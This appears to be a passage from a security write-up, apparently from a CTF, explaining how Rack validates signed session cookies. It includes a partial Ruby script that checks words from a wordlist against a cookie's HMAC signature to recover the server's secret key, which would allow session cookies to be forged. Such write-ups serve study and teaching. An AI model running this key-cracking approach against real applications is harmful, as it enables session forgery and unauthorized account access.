 It splits the cookie at the `--` delimiter, with the cookie value (left paft) containing 
the session data as we've seen. The right value is the digest, I.E. the HMAC that was 
generated using the `session_data` and the secret key. rack will then set the 
`session_data` to nothing unless the digests match. 

![decode-cookie](images/rack-cookie-src4.png)

![decode-cookie](images/rack-cookie-src5.png)

We can use this validation process to brute force the secret key by using source code of the rack library to check against a valid cookie with a dictionary of words. Since the server returned to us a cookie, by definition it is valid so we'll use that for our script.

```ruby
require 'uri'
require 'openssl'

# Copied from https://github.com/rack/rack/lib/rack/session/cookie.rb
def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

def find_secret(cookie, words)

    data, signature = cookie.split('--', 2)

    data = URI.decode(data)

    for word in words
        if generate_hmac(data, word) == signature
            return word
        end
    end
    return nil
end

def main

    if ARGV.length != 2
        puts('usage: find-secret <cookie> <wordlist>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)
    words   = IO.readlines(ARGV[1], chomp: true)
```